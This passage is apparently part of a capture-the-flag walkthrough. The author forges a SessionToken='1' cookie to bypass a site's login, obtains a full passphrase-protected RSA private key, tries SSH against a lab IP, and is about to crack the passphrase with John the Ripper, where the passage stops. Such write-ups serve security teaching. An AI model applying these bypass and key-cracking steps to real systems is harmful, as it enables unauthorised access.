 ```
}
```

Having a look at code we learn how users are authenticated. we can set a cookie with the key-value of SessionToken-'1'.

Using the web developer bar, we manually create this cookie and refresh the page. After refreshing we are provided with a SSH key. Let’s save it locally as ssh.key and give it the appropriate privileges. `chmod 600 ssh.key`

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```

However, the key is password protected and we need to crack it:

```
☺ ssh -i ssh.key 10.10.34.125
load pubkey "ssh.key": invalid format
The authenticity of host '10.10.34.125 (10.10.34.125)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.34.125' (ECDSA) to the list of known hosts.
Enter passphrase for key 'ssh.key': 
```
Let’s crack it using John the Ripper:
